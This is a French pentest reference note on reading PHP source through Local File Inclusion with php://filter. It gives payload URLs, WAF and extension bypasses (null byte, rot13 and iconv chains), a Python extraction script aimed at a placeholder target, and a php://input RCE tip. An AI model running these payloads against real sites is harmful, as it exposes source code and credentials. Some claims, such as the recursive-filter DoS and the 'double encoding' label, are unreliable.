

## Exploitation LFI via PHP Filters



L'exploitation de **LFI** (Local File Inclusion) via les **PHP Filters** permet d'extraire le code source de fichiers sensibles sans déclencher leur exécution par le moteur **PHP**. Cette technique est étroitement liée aux concepts de **Path Traversal**, **RFI**, **Webshells** et **File Inclusion**.

### Objectif

L'utilisation de **php://filter** permet de :
- Contourner l'exécution automatique des fichiers **.php** par le serveur.
- Lire le code source de fichiers sensibles en les encodant en **base64**.
- Outrepasser certaines restrictions d'accès ou extensions imposées par le script vulnérable.

> [!danger] Prérequis
> Cette technique nécessite une fonction d'inclusion **PHP** vulnérable (ex: **include**, **require**, **include_once**, **require_once**) pour fonctionner.

### Syntaxe générale

```php
php://filter/read=convert.base64-encode/resource=FICHIER
```

Exemple d'application sur un paramètre vulnérable :

```text
?lang=php://filter/read=convert.base64-encode/resource=config
```

> [!warning] Gestion des extensions
> Attention à la gestion des extensions ajoutées automatiquement par le serveur (ex: .php). Si le serveur concatène automatiquement une extension, le filtre peut être altéré.

### Décodage local

Une fois la chaîne **base64** extraite de la réponse HTTP, le décodage en local est indispensable pour lire le code source récupéré :

```bash
echo 'PD9waHAK...== ' | base64 -d
```

### Techniques de bypass de WAF/filtres

Pour contourner les WAF ou les filtres applicatifs cherchant des mots-clés comme `base64` ou `php://`, plusieurs techniques peuvent être combinées :

- **Encodage URL/Double encodage** : `php%3a//filter/read=convert.base64-encode/resource=config.php`
- **Null Bytes** : Sur les versions de PHP < 5.3.4, l'ajout d'un null byte peut tronquer l'extension ajoutée par le serveur : `?page=php://filter/read=convert.base64-encode/resource=config%00`
- **Chaînage de filtres** : Utiliser plusieurs filtres pour masquer la signature :
  `php://filter/read=string.rot13|convert.base64-encode/resource=config.php`

### Exemples de conversion de chaîne (convert.iconv)

Le filtre `convert.iconv` permet de convertir l'encodage des caractères, ce qui peut être utilisé pour contourner des filtres qui bloquent certains caractères ou pour lire des fichiers encodés différemment :

```bash
# Conversion de UTF-8 vers UTF-16
?page=php://filter/read=convert.iconv.utf-8.utf-16/resource=config.php

# Conversion vers UCS-4
?page=php://filter/read=convert.iconv.utf-8.ucs-4/resource=config.php
```

### Risques de crash du serveur (DoS) via filtres récursifs

L'utilisation de filtres récursifs ou de chaînes de filtres très longues peut entraîner une consommation excessive de mémoire ou un dépassement de la pile d'exécution PHP, provoquant un **DoS** (Denial of Service) :

```text
# Exemple de chaîne récursive potentiellement instable
php://filter/read=convert.base64-encode|convert.base64-encode|convert.base64-encode/resource=config.php
```

> [!warning] Risque de corruption de données si le fichier est trop volumineux.

### Méthodes d'automatisation

Pour automatiser l'extraction et le décodage, un script Python est recommandé pour gérer les sessions et le nettoyage des données :

```python
import base64
import requests

target = "http://target.com/index.php"
file_to_read = "config.php"
payload = f"php://filter/read=convert.base64-encode/resource={file_to_read}"

response = requests.get(target, params={'page': payload})
if response.status_code == 200:
    decoded = base64.b64decode(response.text)
    print(decoded.decode('utf-8', errors='ignore'))
```

### Cas concrets

| Situation | Exemple d'URL |
| :--- | :--- |
| LFI classique avec extension .php imposée | `?page=php://filter/read=convert.base64-encode/resource=config` |
| Lecture d'un fichier .php interdit en direct (403) | `?page=php://filter/read=convert.base64-encode/resource=admin/config` |
| Filtre sur des chemins autorisés uniquement | `?lang=./languages/php://filter/read=convert.base64-encode/resource=../../config` |
| Lecture d'un fichier .php dans un répertoire | `?file=php://filter/read=convert.base64-encode/resource=inc/login` |

### Extensions compatibles

Les filtres s'appliquent sur divers types de fichiers, notamment :
- **.php**, **.php3**, **.php5**, **.inc**, **.phtml** (selon la configuration du serveur).
- Fonctionne même si le fichier **PHP** ne produit aucune sortie HTML.
- Permet de contourner les protections de lecture (403, 500) et l'exécution automatique.

### Limitations

> [!warning] Risques et contraintes
> - Ne fonctionne pas avec les fonctions exécutant du code comme **eval()**.
> - Risque de corruption de données si le fichier est trop volumineux.
> - Si le serveur ajoute automatiquement une extension, le risque est de générer un chemin invalide (ex: .php.php).

### Astuces

- Le recours à **php://input** permet d'envoyer des données via le corps de la requête **POST**, ce qui est utile pour tester des vecteurs de **RCE** si l'inclusion est dynamique.
- Toujours vérifier la version de **PHP** via les en-têtes HTTP (`X-Powered-By`) pour adapter les techniques de bypass.

### Liens associés

- Path Traversal
- RFI
- Linux
- Webshells
- File Inclusion